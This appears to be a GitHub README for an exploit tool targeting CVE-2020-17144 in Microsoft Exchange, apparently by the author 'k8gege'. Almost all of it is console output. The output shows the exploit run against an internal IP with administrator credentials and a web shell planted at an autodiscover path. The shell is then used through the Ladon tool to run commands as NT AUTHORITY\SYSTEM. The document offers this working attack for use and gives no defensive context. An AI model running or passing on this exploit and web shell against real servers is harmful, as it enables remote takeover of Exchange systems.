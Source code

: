 ### Exp

~~~
C:\Users\k8gege>CVE-2020-17144.exe 192.168.1.89 administrator admin@123
BinaryFormatter
[+] Target: https://192.168.1.89/ews/Exchange.asmx
[+] User: administrator K8gege520
[+] Shell in https://192.168.1.89/autodiscover/Services.aspx, Wait for few minut
es
~~~


### webshell
~~~
C:\Users\k8gege>Ladon WebShell aspx cd https://192.168.1.89/autodiscover/Services.aspx Ladon whoami
Load WebShellExec
nt authority\system
~~~

![result](CVE-2020-17114.png)